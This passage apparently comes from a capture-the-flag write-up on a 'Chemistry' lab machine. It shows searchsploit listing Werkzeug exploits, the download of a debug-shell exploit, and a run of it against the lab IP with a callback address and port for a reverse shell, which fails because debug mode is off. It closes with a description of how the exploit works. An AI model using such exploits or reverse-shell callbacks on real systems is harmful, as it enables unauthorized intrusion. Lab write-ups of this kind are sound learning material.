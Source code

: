```
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Pallets Werkzeug 0.15.4 - Path Traversal                                                                                                                                                                  | python/webapps/50101.py
Werkzeug - 'Debug Shell' Command Execution                                                                                                                                                                | multiple/remote/43905.py
Werkzeug - Debug Shell Command Execution (Metasploit)                                                                                                                                                     | python/remote/37814.rb
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

No results on the openssh, also no relevant results on python, but on Werkzeug I see we can make a reverse shell if the debugging functionality is enabled, so let's download the exploit with the `-m` flag.

```
┌──(oriol㉿zero)-[~/chemistry]
└─$ searchsploit -m multiple/remote/43905.py
  Exploit: Werkzeug - 'Debug Shell' Command Execution
      URL: https://www.exploit-db.com/exploits/43905
     Path: /usr/share/exploitdb/exploits/multiple/remote/43905.py
    Codes: N/A
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/oriol/chemistry/43905.py
```

So, let's run the exploit:
```
┌──(oriol㉿zero)-[~/chemistry]
└─$ python 43905.py 10.10.11.38 5000 10.10.14.157 4422
[-] Debug is not enabled
```

It doesn't have debug enabled... I usually don't like to run exploits without knowing and understanding what they do, so in essence it searches if the web page has any /console directory, which as we saw on the scanning phase, it doesn't have any. After looking for the /console directory (which indicates is in debug mode), it creates a reverse shell with python, it searches a secret, which is like a token for access and a 20 character alphanumeric string. Finally it sends the reverse shell.

Unlucky we didn't find anything easy on the services, so let's try on the page.

First of all let's see if we can do an injection:

